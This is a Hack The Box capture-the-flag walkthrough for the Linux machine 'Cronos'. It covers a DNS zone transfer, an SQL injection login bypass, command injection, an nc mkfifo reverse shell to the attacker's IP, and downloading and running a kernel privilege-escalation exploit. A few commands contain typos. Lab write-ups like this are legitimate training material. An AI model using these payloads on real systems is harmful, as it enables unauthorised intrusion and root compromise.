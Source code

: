 ```yaml
---
title: "Cronos -- hack the box"
author: Neal
tags: [安全, hack the box, walkthrough, linux]
categories: [htb]
date: "2019-03-15" 
---
```


![AEpKkq.png](https://s2.ax1x.com/2019/03/14/AEpKkq.png)

## Introduction

Target machine: 10.10.10.13(OS: linux)

Kali linux: 10.10.16.44

## Enumeration

Firstly, detect the open ports:

```
nmap -sT -p- --min-rate 10000 -oA openports 10.10.10.13
```

![AE1qlF.png](https://s2.ax1x.com/2019/03/15/AE1qlF.png)

3 ports is open, detect the detailed services:

```
namp -sV -sC -p22.53.80 -Pn -oA services 10.10.10.13
```

![AE1OOJ.png](https://s2.ax1x.com/2019/03/15/AE1OOJ.png)

So we can conduct the relation of ports of ports and services as following:

port|service
---|---
53|DNS
22|ssh
80|http

## Exploitation

### http

As the target machine provides http service, try to access `http://10.10.10.13`

![AE3V0A.png](https://s2.ax1x.com/2019/03/15/AE3V0A.png)

Default apache web page, nothing new. So try to brute force `http://10.10.10.13/` with dirbuster. After brute force for a period time, we have not found anything new.

### DNS

As the target machine owns DNS service. It is common to check zone transfer with `dig`. As we can have a guess of the dns domain of `cronos.htb`. So zone transfer can be checked by:

```
dig axfr @10.10.10.13 cronos.htb
```

![AE3ZTI.png](https://s2.ax1x.com/2019/03/15/AE3ZTI.png)

An interestring domain name `admin.cronos.htb` is found. So add an entry into `/etc/hosts`:

```
10.10.10.13    admin.cronos.htb
```

Try to access `admin.cronos.htb` in the browser, a login web page is displayed. Yep, it is what we want. It seems that the login is quite simple. Try to login with sql injection with the username of `admin ' or '1' = '1`, the password can be anything.

![AE3mkt.png](https://s2.ax1x.com/2019/03/15/AE3mkt.png)

![AE3ntP.png](https://s2.ax1x.com/2019/03/15/AE3ntP.png)

Magic! We are in. It seems that it is a network tool. However, it seems that it has exposed the ability to execute command remotely. Have a test of `8888&whoami`:

![AE3l6g.png](https://s2.ax1x.com/2019/03/15/AE3l6g.png)

The result is `www-data`. Obviously, the command can executed properly. Now try to reverse the shell. Try to listen to port `1234` by nc in our kali:

```
nc -lvnp 1234
```

Then use the bash reverse shell command:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.44 1234 >/tmp/f
```

Wait for server second, shell is return. Wonderful!

![AE3uff.png](https://s2.ax1x.com/2019/03/15/AE3uff.png)

Try to obtain a tty terminal:

```
python -c "import pty;pty.spawn('/bin/sh')"
```

Obviously, the user role can be obtained. Go the `home` folder and `ls`， then go into the user folder to get user.txt.

## Privilege escalation

It's time to get the root role. See the kernel of the target machine:

```
uname -a
```

Google linux kernel privilege escalation, find a [payload](https://www.exploit-db.com/exploits/44298)

![AEmLVK.png](https://s2.ax1x.com/2019/03/15/AEmLVK.png)

Server a http server to provide the payload, name it as exploit.c:

```
pythoon -m SimpleHTTPServer 80
```

There are serveal ways to provide http file services, including: php, apache, python, etc. Pyhton is quite convinient. Then download the `exploit.c` in the target machine:

```
wget http://10.10.16.22/exploit.c
```

Then try to compile it with gcc. Opps, gcc seems has not been installed in the target machine. In general, linux will install gcc. Whatever, compile the `exploit.c` in kali:

```
gcc exploit.c -o exploit
```

Remember to download the file from a folder with permission, just like `/tmp`:

```
cd /tmp
wget http://10.10.16.44/exploit
```

Make sure to have execution perssion by:

```
chmod +x exploit
```

Just execute it by `./exploit`. Wow, now see whoami.

![AE31XQ.png](https://s2.ax1x.com/2019/03/15/AE31XQ.png)

## Conclusion

The target machine is quite straitforward. The basic point is the zone transfer of DNS exploit. And other steps is not difficult with basic knowledges including: sql injection, reverse shell, etc.




